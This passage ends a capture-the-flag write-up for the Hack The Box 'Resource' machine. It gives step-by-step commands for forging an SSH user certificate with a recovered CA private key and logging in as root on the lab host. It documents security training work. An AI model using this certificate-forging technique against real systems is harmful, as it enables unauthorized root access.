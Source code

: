 ![CA content](/images/HTB-Resource/CA_content.png)

We can go back to our local machine, and generate SSH keys for root.

1. Generate a key pair for root

```
ssh-keygen -f root
```

2. Change the permission of the key recovered.

```
chmod 600 root.key
```

3. Create a SSH certificate by signing the public key.

```
ssh-keygen -s root.key -z 200 -I root -V -52w:forever -n root_user root.pub
```

| Option          | Description                                                                                                                                      |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| -s root.key     | Specifies the signing key, which is the private key of the Certificate Authority (CA).                                                           |
| -z 200          | Specifies the certificate serial number. This is a unique identifier for the certificate.                                                        |
| -I root         | Specifies the key identity string. The identity (`root`) is an arbitrary label for the certificate.                                               |
| -V -52w:forever | Specifies the validity period.                                                                                                                   |
| -n root_user    | Specifies the authorized principals (usernames or roles).                                                                                         |
| root.pub        | Specifies the public key file being signed. The certificate will be generated for this key, and the resulting file will be named `root-cert.pub`. |

4. Login as root 

```
ssh root@itrc.ssg.htb -p2222 -i root -i root-cert.pub
```

> The private key (`root`) provides proof of ownership, while the certificate (`root-cert.pub`) establishes trust between our key and the server. The server validates the certificate using the CA public key stored in its configuration (from `TrustedUserCAKeys`), and then uses the private key to complete the authentication process. The certificate tells the server to trust the public key in `root.pub` because it was signed by the trusted Certificate Authority (CA). Without the certificate, the server wouldn’t recognize the root key as a trusted identity.

![root ssh login and flag](/images/HTB-Resource/root_flag.png)

Thanks for reading this write up!
